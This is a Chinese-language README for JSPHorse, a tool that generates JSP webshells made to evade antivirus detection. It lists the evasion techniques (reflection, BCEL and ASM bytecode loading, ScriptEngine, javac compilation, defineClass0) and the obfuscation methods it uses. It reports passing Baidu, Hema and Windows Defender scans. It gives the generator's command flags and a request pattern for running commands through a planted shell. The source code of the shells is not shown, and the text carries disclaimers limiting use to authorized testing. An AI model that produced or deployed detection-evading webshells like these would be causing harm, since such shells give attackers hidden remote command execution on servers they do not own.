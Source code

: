# JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 简介

一个JSP免杀Webshell生成器，主要支持普通回显Webshell，也实现了蚁剑的免杀

生成代码技术基于AST库`JavaParser`和字节码操作框架`ASM`

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

主要的免杀技术：

- 基本的Java反射调用免杀
- BCEL格式字节码反射加载免杀
- ScriptEngine调用JS免杀
- Javac动态编译class免杀
- java.beans.Expression免杀
- 自定义ClassLoader加载字节码免杀
- native方法defineClass0加载字节码免杀
- ASM直接构造字节码(普通和BCEL)并加载执行免杀

代码生成方式：

- 双重随机异或运算加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

## Quick Start

在Github右侧Release页面下载

- 生成标准形式基础Webshell

`java -jar JSPHorse.jar -p your_password`

- 生成蚁剑的免杀Webshell

`java -jar JSPHorse.jar -p your_password --ant`

- 生成Javac动态编译class的Webshell

`java -jar JSPHorse.jar -p your_password --javac`

- 使用ScriptEngine调用JS免杀

`java -jar JSPHorse.jar -p your_password --js`

- 使用Expression免杀

`java -jar JSPHorse.jar -p your_password --expr`

- 使用自定义ClassLoader加载字节码

`java -jar JSPHorse.jar -p your_password --classloader`

- 用ASM动态生成字节码使用自定义ClassLoader加载

`java -jar JSPHorse.jar -p your_password --classloader-asm`

- 加载BCEL字节码免杀（动态构造字节码）

`java -jar JSPHorse.jar -p your_password --bcel`

- 用ASM动态生成BCEL字节码免杀

`java -jar JSPHorse.jar -p your_password --bcel-asm`

- 使用Proxy类的native方法`defineClass0`加载字节码

注意：原理是在JVM中注册类，不允许重复，所以这种马只能执行一次命令然后失效

但`JSPHorse`从字节码层面构造了不同的类，如果想要多次执行只要重复生成多个马即可

`java -jar JSPHorse.jar -p your_password --proxy`

- 使用`defineClass0`加载ASM直接构造的字节码

注意：原理同上，只能执行一次

但`JSPHorse`每次生成的类名不一致，可以重新生成来做多次执行

`java -jar JSPHorse.jar -p your_password --proxy-asm`

- 任何一种方式加入`-u`参数进行Unicode编码（有时候有奇效）

`java -jar JSPHorse.jar -p your_password --expr -u`

- 使用`-o`指定输出文件，默认输出到`result.jsp`

`java -jar JSPHorse.jar -p your_password -o 1.jsp`

- 如何使用

1. 普通情况：`1.jsp?pwd=your_password&cmd=ipconfig`

2. 蚁剑：正常使用

## 个人推荐

从混淆程度来看，最高的应该是以下几种，也许会有较高的免杀效果

1. ASM动态生成BCEL字节码并加载：`--bcel-asm -u`
2. 使用ScriptEngine加载JS：`--js -u`
3. 使用Javac动态编译：`--javac -u`
4. 自定义ClassLoader加载ASM动态生成字节码：`--classloader-asm -u`

## 感谢

参考三梦师傅的Webshell：https://github.com/threedr3am/JSP-Webshells

参考天下大木头师傅的Webshell：https://github.com/KpLi0rn/Shell

参考su18师傅的`defineClass0`方式：https://github.com/su18

## 免责申明

**未经授权许可使用`JSPHorse`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


